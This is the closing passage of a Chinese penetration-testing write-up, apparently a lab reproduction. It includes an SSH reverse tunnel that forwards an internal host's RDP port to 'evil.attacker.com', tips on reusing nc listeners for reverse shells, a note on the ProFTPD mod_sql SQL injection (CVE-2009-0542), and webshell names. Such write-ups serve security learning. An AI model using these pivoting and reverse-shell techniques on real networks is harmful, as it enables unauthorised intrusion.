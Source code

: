 在数据库服务器上再做一次 Windows 远程桌面的 3389 端口的转发：

```
ssh -l root -t -t -R 3389:10.150.0.20:3389 evil.attacker.com
```

最后，在攻击者本地开启远程桌面：

```
rdesktop 127.0.0.1
```

Bingo!

## 思考

通过本次学习，我发现借助渗透测试演示视频来学习、复现是非常好的提升方法。其中也考察了两个能力：

- 资料搜集能力
- 环境快速、准确搭建能力

另外有一个值得注意的地方：作者的反弹 Shell 反弹到的端口都是 本地的 80。这是可行的。`TCP`方式监听决定了每次建立连接后都会有一个新的端口分配出来供这次连接使用。对于`nc`来说，连接建立后 80 就不再使用了（除非你加了`-k`之类的保持监听的参数）。所以可以重复使用`nc`监听 80 端口。这对于周期性反弹 Shell 时建立多个连接有帮助。

作者的渗透过程十分精彩。让我想起猪猪侠前辈在一次[经历分享](https://github.com/ring04h/papers/blob/master/我的白帽学习路线--20170325.pdf)中讲的一句话：

> 知识面，决定看到的攻击面有多广。  
> 知识链，决定发动的杀伤链有多深。

这个渗透过程也有缺失的地方：后渗透。如果能再展示一下后渗透阶段的操作就更好了。

## 附录一 | CVE-2009-0542

`ProFTPD 1.3`的`mod_sql`模块中`用户名`部分存在`SQL 注入`。

> ProFTPD的SQL认证模块没有正确地处理百分号字符（%）。在mod_sql查询中，可使用百分号表示变量。当mod_sql模块查找到百分号时，就会试图用变量替换，这就改变了基本查询的用户名。

> Anyway, %' effectively makes the single quote unescaped and that eventually allows for an SQL injection during login.

应该是对`%`的处理存在问题。

参考：

- [ProFTPD mod_sql用户名SQL注入漏洞](https://www.seebug.org/vuldb/ssvid-4756)
- [ProFTPd 1.3 - 'mod_sql' 'Username' SQL Injection](https://www.exploit-db.com/exploits/32798/)
- [ProFTPd - 'mod_mysql' Authentication Bypass](https://www.exploit-db.com/exploits/8037/)

## 附录二 | Webshell 反弹 Shell

关于反弹 Shell，可以参考我之前的一篇[总结文章](http://aptx4869.me/sec/2017/11/20/Linux-reverseShell.html)。

这里想补充的是带有反弹 Shell 功能的 Webshell。可以自行搜索以下关键词：

```
PHPSpy
JSPSpy
ASPXSpy
```
